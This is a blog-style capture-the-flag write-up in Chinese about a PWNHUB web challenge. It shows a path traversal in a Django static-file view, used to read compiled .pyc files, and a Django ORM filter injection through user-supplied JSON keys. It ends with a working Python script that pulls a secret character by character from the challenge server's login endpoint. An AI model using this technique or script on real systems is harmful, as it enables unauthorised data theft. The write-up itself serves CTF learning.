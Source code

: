 ```yaml
---
id: 755
layout: post
title: 'PWNHUB Web第一题writeup'
date: 2016-12-05 20:04:00
author: virusdefender
tags: 安全 CTF
---
```


题目地址 http://54.223.46.206:8003/

首先在HTTP头中可以看到 `Server:gunicorn/19.6.0 Django/1.10.3 CPython/3.5.2`，引用的站内资源只有一个js，然后回想起ph师傅的写过的Python Web安全的文章还有 http://www.lijiejie.com/python-django-directory-traversal/ ，发现在处理静态文件的时候有一个任意文件读取，但是任何`.py`结尾的文件都会提示403，其他的不会，考虑读取`pyc`，看了下自己的Django项目，Python 3.5的`pyc`都是在一个`__pycache__`目录中的，然后是`xxx.cpython-35.pyc`的文件名。

Django 是一个 MVC 框架，默认的主要代码都在 `models.py` 和 `views.py`，成功的得到 pyc。然后使用 [unpyc3](https://github.com/figment/unpyc3) 得到了源码。

核心代码如下

```python
class StaticFilesView(generic.View):
    content_type = 'text/plain'

    def get(self, request, *args, **kwargs):
        filename = self.kwargs['path']
        # 任意文件读取就是这里
        filename = os.path.join(settings.BASE_DIR, 'students', 'static', filename)
        (name, ext) = os.path.splitext(filename)
        if ext in ('.py', '.conf', '.sqlite3', '.yml'):
            raise exceptions.PermissionDenied('Permission deny')
        try:
            return HttpResponse(FileWrapper(open(filename, 'rb'), 8192), content_type=self.content_type)
        except BaseException as e:
            raise Http404('Static file not found')
            
class LoginView(JsonResponseMixin, generic.TemplateView):
	template_name = 'login.html'
	def post(self, request, *args, **kwargs):
		data = json.loads(request.body.decode())
		stu = models.Student.objects.filter(**data).first()
		if not stu or stu.passkey != data['passkey']:
			return self._jsondata('', 403)
		else:
			request.session['is_login'] = True
			return self._jsondata('', 200)

class Student(models.Model):
    name = models.CharField('姓名', max_length=64, unique=True)
    no = models.CharField('学号', max_length=12, unique=True)
    passkey = models.CharField('密码', max_length=32)
    group = models.ForeignKey('Group', verbose_name='所属班级', on_delete=models.CASCADE, null=True, blank=True)


class Group(models.Model):
    name = models.CharField('班级名', max_length=64)
    information = models.TextField('介绍')
    secret = models.CharField('内部信息', max_length=128)
    created_time = models.DateTimeField('创建时间', auto_now_add=True)
```

可以看到直接将用户发送的数据作为 filter 的条件传递了，如果用户存在，而 data 中没有 `passkey` 就会造成 500，如果用户不存在就会403，所以可以使用 Django 中的 like 查询。它的特点就是字段名后面添加两个下划线，接着才是搜索条件，可以作为参数传给 filter。

```python
# 精确查询 where name="test"
Student.objects.filter(name="test")

# 按照字符串开头查询 where name="test%"
Student.objects.filter(name__startswith="test")

# 按照字符串包含查询 where name="%test%"
Student.objects.filter(name__contains="test")
```

其实这里还有个坑，但是后来给ph师傅说了之后还是填上了，防止题目过于难，就是这里Django使用的是sqlite3数据库，而sqlite3的like是不区分大小写的，而数据库里面存的确实是大小写混合的，然而实际上还是有两个解决方案的

  - 爆破，12位密码去除数字，实际组合是`2^10`左右，也并不大
  - 使用sql中的正则，类似`Studdent.objects.filter(name__regex="test")`，这样就和区分大小写的`contains`是一样的了。

当然这个问题并不需要用户的密码，使用相同的方式去获取secret就好了。语句是`Student.objects.filter(group__secret__contains="pwnhub")`。最终利用的代码是
 
```python
import requests
import json

import string
d = string.printable

passkey = "pwnhub"

while True:
    for item in d:
        r = requests.post("http://54.223.46.206:8003/login/", data=json.dumps({"group__secret__contains": passkey + item}))
        if r.status_code == 500:
            passkey += item
            print(passkey)
            break
    else:
        exit()
```

